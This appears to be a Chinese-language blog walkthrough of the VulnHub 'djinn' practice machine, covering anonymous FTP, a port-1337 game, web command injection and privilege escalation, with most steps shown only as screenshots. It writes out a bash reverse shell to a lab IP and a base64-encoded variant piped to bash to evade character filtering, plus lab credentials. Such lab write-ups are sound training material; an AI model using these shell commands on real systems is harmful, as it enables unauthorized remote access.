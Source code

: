 ```yaml
---
layout: post
title:  "vulnhub >_ djinn"
description: walkthrough
category: vulnhub
---
```


# djinn



![image-20200615205317501]({{ site.url }}/assets/djinn.assets/image-20200615205317501.png)

![image-20200615205617642]({{ site.url }}/assets/djinn.assets/image-20200615205617642.png)

匿名登录ftp，下载所有文件

![image-20200615210051865]({{ site.url }}/assets/djinn.assets/image-20200615210051865.png)

![image-20200615210237687]({{ site.url }}/assets/djinn.assets/image-20200615210237687.png)

得到3个线索

```bash
nitu:81299
@nitish81299
1337端口有一个游戏
```

![image-20200615210502911]({{ site.url }}/assets/djinn.assets/image-20200615210502911.png)

连接被重置。试一下命令行

```bash
nc 192.168.43.251 1337
```

![image-20200615210713538]({{ site.url }}/assets/djinn.assets/image-20200615210713538.png)

需要回答1000次？？看样需要一个脚本。

![image-20200615210914878]({{ site.url }}/assets/djinn.assets/image-20200615210914878.png)

看来只是随机的数学题，做1000次，脚本需要得到题面之后计算。先试试其他。

<img src="assets/djinn.assets/image-20200615211121579.png" alt="image-20200615211121579" style="zoom:50%;" />

一个http

正常测试

![image-20200615211443768]({{ site.url }}/assets/djinn.assets/image-20200615211443768.png)

![image-20200615211639875]({{ site.url }}/assets/djinn.assets/image-20200615211639875.png)

![image-20200615211743505]({{ site.url }}/assets/djinn.assets/image-20200615211743505.png)

虽然命令回显的是403页面，但显然，命令是被执行的。

```bash
bash -i >& /dev/tcp/192.168.43.66/1338 0>&1
```

![image-20200615212120416]({{ site.url }}/assets/djinn.assets/image-20200615212120416.png)

显然，由于一些限制，命令不能被执行，应该是限制了一些字符或命令。我们可以使用base64对命令进行编码。在注入后通过base64解码再传入bash来执行

![image-20200615212734952]({{ site.url }}/assets/djinn.assets/image-20200615212734952.png)

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjY2LzEzMzggMD4mMQo= | base64 -d | bash
```

![image-20200615212822912]({{ site.url }}/assets/djinn.assets/image-20200615212822912.png)

![image-20200615213348492]({{ site.url }}/assets/djinn.assets/image-20200615213348492.png)

![image-20200615213425972]({{ site.url }}/assets/djinn.assets/image-20200615213425972.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![image-20200615213706914]({{ site.url }}/assets/djinn.assets/image-20200615213706914.png)

![image-20200615215315359]({{ site.url }}/assets/djinn.assets/image-20200615215315359.png)

![image-20200615215458236]({{ site.url }}/assets/djinn.assets/image-20200615215458236.png)

尝试了很多命令组合，都无法让这个程序达成任何合适的状态

查阅了提示。需要看一下手册。

```bash
man /usr/bin/genie | less
```

![image-20200615221258596]({{ site.url }}/assets/djinn.assets/image-20200615221258596.png)

这个有点过分。。。

![image-20200615221403904]({{ site.url }}/assets/djinn.assets/image-20200615221403904.png)

![image-20200615221830360]({{ site.url }}/assets/djinn.assets/image-20200615221830360.png)

显然又是一个。

在用户目录下发现了这个python脚本的编译后的文件

![image-20200615223218574]({{ site.url }}/assets/djinn.assets/image-20200615223218574.png)

![image-20200615222903612]({{ site.url }}/assets/djinn.assets/image-20200615222903612.png)

python有一个uncompyle6可以帮助我们还原.pyc的代码https://pypi.org/project/uncompyle6/

![image-20200615223745408]({{ site.url }}/assets/djinn.assets/image-20200615223745408.png)

![image-20200615224452587]({{ site.url }}/assets/djinn.assets/image-20200615224452587.png)

![image-20200615224824140]({{ site.url }}/assets/djinn.assets/image-20200615224824140.png)



![image-20200615222755918]({{ site.url }}/assets/djinn.assets/image-20200615222755918.png)